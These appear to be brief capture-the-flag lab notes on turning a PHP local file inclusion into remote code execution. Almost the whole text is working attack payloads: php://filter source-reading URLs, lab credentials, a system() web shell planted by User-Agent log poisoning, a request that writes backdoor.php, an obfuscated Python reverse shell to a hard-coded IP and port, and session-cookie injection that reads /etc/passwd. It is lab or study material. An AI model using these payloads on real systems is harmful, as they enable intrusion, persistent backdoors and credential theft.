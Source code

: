 # LFI
Extracting php files
```url
http://example.thm.labs/page.php?file=php://filter/read=string.rot13/resource=/var/www/index.php 

http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/var/www/index.php
```

```php
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
```

## RCE Via User Agent
Changing User Agent
```
curl -A "<?php echo 'kena nih ';system(\$_GET['cmd']);?> https://example.com
```

Create 
```url
10.10.131.95/index.php?err=includes/logs/app_access.log&cmd=echo "<?php echo 'kena nih ';system(\$_GET['cmd']);?>" > backdoor.php
```

```bash
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.17.33.167",4444));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

## RCE Via Stored Session Cookie
```
login=1&user=<?php phpinfo();?>&pass=password
login=1&user=<?php system("cat /etc/passwd");?>&pass=password
```